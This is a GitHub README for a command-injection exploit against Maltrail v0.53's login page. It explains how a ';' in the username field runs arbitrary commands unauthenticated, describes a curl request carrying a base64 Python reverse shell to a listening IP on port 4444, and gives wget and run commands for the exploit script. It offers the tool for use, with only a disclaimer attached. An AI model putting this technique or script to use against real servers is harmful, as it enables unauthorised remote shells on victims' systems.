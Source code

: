 # Maltrail v0.53 RCE

> [!WARNING]  
> This is an educational project, I am not responsible for any use

# Exploit

In Mailtrain's web service the username parameter of the login page does not sanitise, which allows an attacker to inject commands without being authenticated and from a remote machine.

In a shell we can separate command with a `;` and what comes before the `;` will be executed as one command and what comes after will be executed as another command, if you inject into the `username` parameter a `;` + a `payload` the `payload` will be executed because the source code uses `subprocess.check_output` to check the value of the `username` parameter.

# What is it and how does it work?

Maltrail is a malicious traffic detection system [to learn more visit the official website](https://github.com/stamparm/maltrail)

This bash script sends a request using `curl` to the server that hosts maltrail. That request contains the data from -> `username=;PAYLOAD` which where it says `PAYLOAD` will execute a reverse shell using base64 encoded python on port 4444.

# Usage

```zsh
wget https://raw.githubusercontent.com/Rubioo02/Maltrail-v0.53-RCE/main/exploit.sh
./exploit.sh -t <TARGET_IP> -i <LISTENING_IP>
```

# BLOG
<https://rubioo02.github.io/>
